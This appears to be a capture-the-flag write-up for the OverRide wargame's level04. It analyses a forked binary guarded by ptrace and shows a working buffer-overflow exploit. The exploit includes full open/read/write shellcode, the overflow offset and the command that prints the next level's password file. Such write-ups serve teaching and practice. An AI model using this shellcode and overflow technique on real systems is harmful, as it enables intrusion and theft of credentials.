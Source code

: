 # level04

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program declares a buffer of 32 bytes, then calls `fork` to create a child process :

- In the child process, `ptrace` is used to make the process trackable, `puts` displays the hint "Give me some
  shellcode, k", then `gets` is called to fill the buffer.

- In the same time, the parent process wait for a status update from the child. If it receives a `SIGCHLD`, meaning the
  child process has exited, it returns too. Otherwise, it uses `ptrace` to monitor the syscalls done by the child
  process, especially looking for an `exec` call. If it catchs one, it kills the process and returns.

From here, we know that we have to design a shellcode that does not use any call to `exec`, and obviously find a way to
jump to it. The use of `gets` inside the child process seems to be a good entrypoint for a buffer overflow attack.

## Exploit

We first look for the right offset to overwrite the return address, using a [buffer overflow string
generator](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/). The result is 156.

Since we can't use the syscall `exec` , we will use a
[shellcode](http://shell-storm.org/shellcode/files/shellcode-73.php) which calls `open/read/write` in order to print the
content of the `.pass` file from the level05 user home. We add a nop sled in front of it and export it to the
environment.

```console
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*10 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ env | grep SHELLCODE
SHELLCODE=����������1�1�1�1��2[�1�̀����1�̀�����
                                             $�̀1�9�t���̀���������/home/users/level05/.pass
``` 

Finally, we find the address of our variable SHELLCODE on the stack by running the executable in GDB, then run it again
sending a string of 156 bytes followed by this address (plus a 16 bytes offset) to land into our nop sled.

```console
level04@OverRide:~$ python -c 'print "A" * 156 + "\x8c\xd8\xff\xff"' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```
